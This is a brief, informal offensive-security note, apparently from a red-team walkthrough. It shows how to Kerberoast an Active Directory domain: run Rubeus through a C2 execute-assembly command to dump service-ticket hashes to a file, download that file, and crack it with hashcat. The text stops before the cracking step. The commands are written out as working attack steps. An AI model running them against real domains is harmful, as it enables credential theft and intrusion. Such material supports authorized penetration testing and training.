

one of many tools -
Rubeus
github repo
at this point you should have the exe
execute:
(make sure to be in a folder you can write to)
> execute-assembly path\to\Rubeus.exe kerberoast /outfile:hashes.txt
just in case you completely lose brainpower dont forget to download
> download hashes.txt
now we just gotta hashcat it